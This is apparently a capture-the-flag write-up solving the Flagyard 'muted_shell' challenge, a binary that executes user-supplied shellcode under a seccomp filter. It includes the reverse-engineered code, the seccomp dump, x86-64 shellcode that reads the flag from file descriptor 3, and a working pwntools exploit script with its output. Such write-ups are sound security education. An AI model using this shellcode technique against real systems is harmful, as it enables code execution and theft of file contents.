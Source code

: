 ```yaml
---
title: Flagyard — muted_shell (pwn, easy)
date: 2025-08-22
toc: true
---
```


![](https://github.com/user-attachments/assets/558c779d-ccdc-4848-bc44-33c27992dbba)

## muted_shell: the binary
Let's take a look at the binary:

```bash
$ file muted_shell | tr ',' '\n'
muted_shell: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=d3eb2c77f71982b5288585a740784397c71076ae
 for GNU/Linux 3.2.0
 not stripped
 
$ pwn checksec muted_shell
[*] '/home/kali/Desktop/ctfs/flagyard/muted_shell/muted_shell'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

$ ./muted_shell
Send your shellcode:
^C
 ```

 So we can see that we are dealing with a PIE enabled 64 bit binary with an executable stack. When we run it, the binary prompts us to send shellcode. Since we don’t have shellcode yet, the next step is reversing the binary.

 ## Reverse Engineering

When we take a look at the main function in Ghidra, we see this:

 ```c
bool main(void)

{
  code *__buf;
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  open("./flag",0);
  __buf = (code *)mmap((void *)0x0,0x1000,7,0x22,-1,0);
  if (__buf != (code *)0xffffffffffffffff) {
    puts("Send your shellcode:");
    read(0,__buf,0x100);
    install_seccomp();
    (*__buf)();
  }
  else {
    perror("mmap");
  }
  return __buf == (code *)0xffffffffffffffff;
}
 ```

 `main()` function opens the flag file in read mode. Then it allocates memory with mmap() and stores shellcode there. It reads up to 0x100 bytes from stdin into the buffer. Then, seccomp is installed and our shellcode is executed. 

### can u read something without opening it?
 As, we know that `main()` function opens flag file in read mode and does not store the file descriptor returned by `open()`. Then how would we read the flag? 
 Hint suggests something about reading something without opening it. So, I researched how `open()` works. The file descriptor is not stored? No worries. Since `stdin = 0`, `stdout = 1`, `stderr = 2` are already taken, the kernel assigns the next free file descriptor, which is 3.
 So, we have to read the flag from the file descriptor 3.

### seccomp - wtf? 
Seccomp (Secure Computing Mode) is a Linux kernel feature that restricts the system calls a process can make. This prevents typical exploits like spawning a shell with `system("/bin/sh")`.

We can use `seccomp-tools` to see which syscalls are allowed by seccomp. If you don't have `seccomp-tools` installed you can do so by running following command:
```bash
$ gem install seccomp-tools
```
Dumping allowed syscalls for our binary:
```bash
$ seccomp-tools dump ./muted_shell
Send your shellcode:

 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0003
 0002: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0003: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0005
 0004: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0005: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
```

As we can see that only read, write & exit syscalls are allowed. 

## Crafting the shellcode

Since the file descriptor for the flag is 3, we can read it and write its content to stdout (1):

```asm
/* read(3, rsp, 0x100) */
xor rdi, rdi
mov dil, 3
mov rsi, rsp
mov rdx, 0x100
mov eax, 0
syscall

/* write(1, rsp, rax) */
mov edi, 1
mov rdx, rax
mov eax, 1
syscall

/* exit(0) */
xor edi, edi
mov eax, 60
syscall
```

## Exploit

We can use pwntools to assemble and send our shellcode:

```python3
from pwn import *

context.arch = "amd64"
asm_code = """
    /* read(3, rsp, 0x100) */
    xor rdi, rdi
    mov dil, 3
    mov rsi, rsp
    mov rdx, 0x100
    mov eax, 0
    syscall

    /* write(1, rsp, rax) */
    mov edi, 1
    mov rdx, rax
    mov eax, 1
    syscall

    /* exit(0) */
    xor edi, edi
    mov eax, 60
    syscall
"""

shellcode = asm(asm_code)

p = process("muted_shell")
p.sendline(shellcode)
p.interactive()
```

When we run it:

```bash
$ python3 exploit.py
[!] Could not find executable 'muted_shell' in$PATH, using './muted_shell' instead
[+] Starting local process './muted_shell': pid 1028017
[*] Switching to interactive mode
[*] Process './muted_shell' stopped with exit code 0 (pid 1028017)
Send your shellcode:
FlagY{test_flag}
[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

To exploit a remote instance, replace `process("./muted_shell")` with:
```python
p = remote("IP_ADDRESS", PORT)
```
